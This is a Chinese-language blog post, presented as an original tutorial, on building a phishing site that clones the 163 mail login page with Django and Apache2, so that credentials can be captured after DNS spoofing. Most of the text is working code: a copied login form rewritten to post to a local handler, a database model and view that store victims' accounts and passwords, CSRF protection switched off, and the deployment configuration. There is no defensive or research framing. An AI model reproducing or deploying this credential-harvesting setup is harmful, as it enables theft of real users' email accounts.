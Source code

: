 ```yaml
---
title:  "<font color='red'>[原创]</font> Apache2+Django搭建钓鱼网站"
date:   2015-08-22 15:13:23
categories: [技术宅,原创]
tags: [技术宅,原创]
---
```


*使用Apache2和Django框架搭建163邮箱的钓鱼网站，用于DNS欺骗后将访问163邮箱网站的流量定向到钓鱼网站，并获取邮箱账号和密码*

## 安装Django
---

通过pip安装：

	$ pip install django

---

## 搭建钓鱼网站
---

### 准备工作

* 用PyCharm生成Django工程，工程名为phisher，在工程根目录创建一个app，app名为mail：

		$ django-admin.py startapp mail

* 在生成的mail目录中创建static和templates文件夹，分别用于存放静态文件(css, js, 图片等)和网页文件(html)

* 在mail/static和mail/templates中创建163文件夹，用于存放163邮箱网页相关静态文件和网页文件

---

### 修改网页文件

* 进入[http://mail.163.com/](http://mail.163.com/)网页，右键，保存所有网页文件

* 修改html文件，删减无用代码，删除js，使其成为一个静态页面

* 替换精简后的html文件中的链接为本地静态文件：

		{% raw %}
		<!DOCTYPE html>
		{% load static %}
		<html>
		<img src="{% static '163/163logo.gif' %}"></a>
		<link rel="stylesheet" type="text/css" href="{% static '163/loginpage.css' %}">
		...
		</html>
		{% endraw %}

* 修改表单响应：

		<form action="/mail/163/login/" method="post">
		...
			<input type="text" name="account">
			<input type="password" name="password">
			<input type="submit">
		...
		</form>

* 如碰到iframe：

		<iframe rc="/mail/163/login/"></iframe>

---

### 编写逻辑文件

* 编写mail/models.py文件，定义数据库记录对象：
	
```python	
# coding:utf-8
from __future__ import unicode_literals

from django.db import models


class Phishee(models.Model):
    account = models.CharField(max_length=30)
    password = models.CharField(max_length=30)
    timestamp = models.DateTimeField(auto_now=True)
    other = models.TextField()

    def __unicode__(self):
        return self.account

    class Meta:
        db_table = 'phishee'			# 指定表名
```

编写完后同步数据库

	$ python manage.py makemigrations
	$ python manage.py migrate


* 编写mail/view.py文件：

```python
# coding:utf-8
from django.shortcuts import render_to_response
from django import forms

from mail.models import Phishee


class PhisheeForm(forms.Form):
    account = forms.CharField()
    password = forms.CharField()


def index_163(request):
    return render_to_response('163/index.html')


def login_163(request):
    if request.method == 'POST':
        form = PhisheeForm(request.POST)
        form.is_valid()
        cdata = form.cleaned_data
        phishee = Phishee(
            account=cdata['account'],		# 'account'与表单中input对应
            password=cdata['password']		# 'password'与表单中input对应
        )
        print phishee.account, phishee.password
        victim.save()						# 存入数据库等其他逻辑
    else:
        form = PhisheeForm()
    return render_to_response('163/login.html')
```

---

### 修改配置文件

* 修改phisher/settings.py文件：

		ALLOWED_HOSTS = ['*']		# 允许所有IP地址访问
		INSTALLED_APPS = [
		    ...,
		    'mail',					# 注册app
		]
		# 注释掉防止跨站请求伪造的中间件CsrfViewMiddleware
		MIDDLEWARE = [
			...,
		    #'django.middleware.csrf.CsrfViewMiddleware',
		    ...
		]
		# 修改数据库
		DATABASES = {
		    'default': {
		        'ENGINE': 'django.db.backends.mysql',
		        'NAME': '??',
		        'USER': '??',
		        'PASSWORD': '??',
		        'HOST': '127.0.0.1',
		        'PORT': '3306',
		    }
		}
		TIME_ZONE = 'Asia/Shanghai'	# 修改时区
		USE_TZ = False


* 修改phisher/url.py文件：

		urlpatterns = [
		    url(r'^static/(?P<path>.*)$', static_views.serve),
		    url(r'^admin/', admin.site.urls),
		    url(r'^mail/163/index/$', views.index_163),
		    url(r'^mail/163/login/$', views.login_163),
		    url(r'^', views.index_163),
		]

---

### 测试

		$ manage.py runserver 8000

用浏览器打开[127.0.0.1:8000](27.0.0.1:8000)

---

## 使用Apache24运行CGI程序
---

* 在/usr/local/etc/apache2/2.4/httpd.conf文件末尾添加：

		# 添加mod_wsgi.so模块
		LoadModule wsgi_module libexec/mod_wsgi-py27.so

		# 指定项目的wsgi.py配置文件路径  
		WSGIScriptAlias / /Users/wuyinan/Projects/python/phisher/phisher/wsgi.py

		# 指定项目路径  
		WSGIPythonPath /Users/wuyinan/Projects/python/phisher

		<Directory "/Users/wuyinan/Projects/python/phisher">
		  <Files wsgi.py>
		    Order deny,allow
		    Allow from all  
		  </Files>
		</Directory>

		# 指定Log路径
		ErrorLog /Users/wuyinan/Projects/python/phisher/log/error.log
		LogLevel warn
		CustomLog /Users/wuyinan/Projects/python/phisher/log/access.log combined

* 测试：

		$ sudo apachectl start

	用浏览器打开[127.0.0.1](27.0.0.1)

	![测试界面](/assets/2015-08-22-1.jpeg "测试界面")
